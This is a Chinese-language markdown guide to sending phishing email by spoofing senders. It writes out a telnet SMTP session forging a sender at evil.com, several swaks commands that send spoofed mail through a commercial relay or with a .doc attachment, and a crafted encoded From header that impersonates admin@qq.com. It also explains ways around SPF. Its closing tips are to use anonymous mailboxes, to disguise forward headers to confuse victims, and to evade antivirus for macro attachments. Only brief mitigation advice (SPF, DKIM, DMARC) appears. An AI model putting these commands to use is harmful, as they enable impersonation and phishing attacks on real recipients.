

## 钓鱼邮件

### SMTP协议--在cmd下利用命令行发送邮件

	telnet smtp.163.com 25
	helo 163.com
	base64_encode_username
	base64_encode_authcode
	mail from:<username@163.com>
	rcpt to:<username@sth.com>
	data
	from:admin@evil.com
	to:username@sth.com
	subject:meeting
	
	meeting
	.

如果邮件退回：550 User has no permission

登陆163邮箱设置授权码:



如果邮件退回：535 Error: authentication failed

密码需要输入base64编码的授权码。

登陆成功：


[SMTP协议--在cmd下利用命令行发送邮件](http://blog.sina.com.cn/s/blog_6dbfc2a901014yqx.html)

## SPF

SPF，全称为 Sender Policy Framework，是一种以IP地址认证电子邮件发件人身份的技术。邮件接收方首先会去检查域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录里面，如果在，就认为是一封正确的邮件，否则会认为是一封伪造的邮件并进行退回。即使配置了SPF，在特定的情况下，依然可以完美伪造邮件发件人。


检查域名是否配置了SPF:

	nslookup -type=txt qq.com


域名SPF配置方法示例：


如下按照了qq邮箱的配置，设置了spf。


在网易邮箱还可以伪造发件人:


因此配置了SPF不一定可以杜绝SPF伪造攻击。

## swaks 工具使用

swaks 是kali自带工具。

```man swaks```  命令查看帮助。

swaks 发送钓鱼邮件：

	swaks --body "meeting time 2 o'clock now" --header "不错" -t target_user@sth.com -f fake_user@sth.com

邮件被退回：

	550 Sender domain is a local domain.
	出错原因：发信人域名已经注册腾讯企业邮箱，禁止相同域名通过外部服务器发送邮件至腾讯企业邮箱服务器。
	
	改善建议：如果您是此域名的管理员，建议使用子域名（如：mail.domain.com）作为邮件发件人域名。

应该使用smtp代理服务器发送邮件。

### smtp2go 网站注册smtp服务器

注册smtp 服务器[smtp2go](https://www.smtp2go.com)


swaks 使用smtp代理服务器，发送钓鱼邮件：

	swaks --body "meeting time 2 o'clock now" --header "不错" -t target_user@sth.com -f fake_user@sth.com --server  mail.smtp2go.com -p 2525 -au sswfef -ap NTlkXXXXXXXXXXAw

往foxmail发送邮件中文出乱码。


(暂未解决，与邮箱有关，163邮箱好像就不会出现乱码。)

smtp2go 数据包中的邮件Received头：


**邮件导出为```test Mon, 08 Mar 2021 05_00_29 -0500.eml```** (关键信息已替换)。

**第二天就收到smtp2go官网的邮件(只用了1d...，且之后企业邮箱域名可能会被拉黑)**：

账户疑似外发钓鱼邮件，功能被限制：


往网易邮箱发带附件的邮件：

	swaks --body "Hi all, read it seriously" --header "Subject:快速review" -t username@yeah.net -f fakeuser@sth.com --attach ./NTA.doc

仿真度超高(不显示代发)：


但如果内容和标题写的太随意，会被认为是垃圾邮件，被阻止发邮件15min。

往QQ邮箱发邮件：

步骤： 先使用邮箱发送一个正常的邮件，邮件标题为想要给目标发送的钓鱼标题，邮件内容及附件为钓鱼附件，导出这个邮件为 ```.eml``` 格式。

伪造```.eml```文件中的From字段：

	From:=?gb2312?B?udzA7dSxIDxhZG1pbkBxcS5jb20+0aGhoaGhoaGhoaGhoaGhoaGhoaGhoQ==?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoSAgICAgICAgICAgICAgICAgIKGkoaQ=?==?gb2312?B?oaQgICAgICAgICAgICAgICAgIKGhICAgICAgIKGkoaShpA==?=  <fakeuser@fakedomain.com>

使用命令发邮件：

	swaks -t targetuser@qq.com -f fakeuser@fakedomain.com  --data export.eml

邮件默认发件人变成 admin@qq.com，邮件被投递到垃圾箱，邮件的发件人也可以看出被做了手脚，因此实用性差。发件人被固定，钓鱼能力极差。待有时间重新构造```.eml```进行FUZZ。


## 伪造发件人原理：

from 字段可以伪造。

"Received:"头提供了详细的消息传输历史记录，因此即使在其他邮件头是被伪造的情况下也可能根 据"Received:"头得到某些关于该信件原始出处和传输过程的结论。

这样的信息对于对于验证和追踪伪造信件是非常有用的。(因此，垃圾邮件发送者往往避免使用那些记录发送者地址的邮件服务器进行垃圾邮件转发。**有时候它们可以找到不记录发送者服务器，但是现在网络上这样的服务器已经很少了**)

伪造者可能创建如下所示的看似真实的"Received:"头列表：
	
	Received: from galangal.org ([202.99.11.120]) by mail.alpha.com.cn (8.8.5)...
	Received: from lemongrass.org by galangal.org (8.7.3/8.5.1)...
	Received: from graprao.com by lemongrass.org (8.6.4)...

如果伪造者这里填写了lemongrass.org 和graprao.com 的真实IP地址，则这样的伪造伪造仍然非常难以检测。但是第一个"Received:"头中的域名和IP的不匹配仍然揭露了消息是伪造的，并且该邮件是有 网络中地址为 202.99.11.120 的服务器注入到网络中。

是邮件协议历史遗漏问题。

[邮件那些事4—浅析伪造发信人的原理与识别](https://blog.csdn.net/ccc7560673/article/details/49306699)


## 防范措施

如果碰到严苛的 ESP ( mail_from 和 from 必须完全一致才不显示代发)也是可以绕过，同时设置成恶意的邮箱发送者。

为了使得域名不会被伪造，需要为域名正确配置[SPF](https://blog.51cto.com/10602188/1882947)、[DKIM](https://www.zoho.com.cn/mail/help/adminconsole/dkim-configuration.html)、[DMARC](https://support.google.com/a/answer/2466563?hl=zh-Hans)。只配置SPF是不行的。

## 参考资料

[邮件伪造之SPF绕过的5种思路](https://cloud.tencent.com/developer/article/1631003)

[**Sth. about email spoofing & 搭建SMTP Server**](https://evi1cg.me/archives/Email_spoofing.html)

[**Cobalt Strike Spear Phish**](https://evi1cg.me/archives/spear_phish.html)


## 后记

杀软的三种查杀方式

1.静态查杀 2.云查杀 3.动态查杀。

邮件服务器为了可用性和隐私性一般只有静态查杀。

### 钓鱼思路

eg:163转发改转发头为企业邮箱迷惑受害者；(注意应使用匿名邮箱)


接下来应重点关注 word，office宏在windows下作为邮件附件的免杀问题。